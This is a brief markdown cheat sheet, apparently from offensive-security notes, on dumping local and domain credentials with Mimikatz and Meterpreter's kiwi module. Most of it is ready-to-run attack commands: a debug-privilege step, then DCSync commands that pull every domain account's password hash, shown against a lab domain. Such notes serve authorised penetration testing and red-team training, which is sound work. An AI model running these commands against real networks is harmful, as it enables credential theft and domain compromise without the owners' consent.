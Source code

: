 # Mimikatz

Use Mimikatz to dump local and domain plaintext credentials and hashes.

## Ensure you have administrative privileges

On a **Mimikatz prompt**:

```powershell
mimikatz: privilege::debug
```

On **Meterpreter**:

```bash
meterpreter > use kiwi
meterpreter > kiwi_cmd privilege::debug
```

If the output is **Privilege '20' OK**, you're good to move forward.

## Dump Domain Hashes

On a **Mimikatz prompt**:

```powershell
mimikatz: lsadump::dcsync /domain:$DOMAIN_NAME /all # HYDRA.test
```

On **Meterpreter**:

```bash
meterpreter > use kiwi
meterpreter > dcsync_ntlm $DOMAIN_USER # HYDRA\\grant.ward
```
